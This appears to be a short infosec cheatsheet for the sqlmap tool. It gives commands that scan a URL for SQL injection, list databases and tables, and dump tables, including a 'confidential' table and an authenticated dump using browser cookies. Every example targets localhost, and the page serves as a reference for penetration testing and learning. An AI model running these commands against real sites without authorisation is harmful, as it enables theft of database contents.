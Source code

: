 +++
categories = ["infosec", "sqlmap"]
date = "2021-04-04"
description = "SQLMap Cheatsheet"
title = "SQLMap cheatsheet"
+++

### NOTE: All dumps can be found in $HOME/.sqlmap folder

### Scan a URL
```bash
sqlmap -u <url>
```
```bash
sqlmap -u http://127.0.0.1?id=65
```

### List all the database
```bash
sqlmap -u http://127.0.0.1?id=65 --dbs
```

### List Tables in the Users database
```bash
sqlmap -u http://127.0.0.1?id=65 --tables -D users
```

### Dump all tables from users databse
```bash
sqlmap -u http://127.0.0.1?id=65 --dump -D users
```

### Dump confidential table from users databse
```bash
sqlmap -u http://127.0.0.1?id=65 --dump -D users -T confidential
```

### Dump confidential table from users databse with cookies
```bash
sqlmap -u http://127.0.0.1?id=65 --dump -D users -T confidential --cookie='cookie1=val1;cookie2=val2'
```

Where `cookie1`, `cookie2` are cookie name and `val1` & `val2` are their values respectively, you can obtain it from browser dev tools.
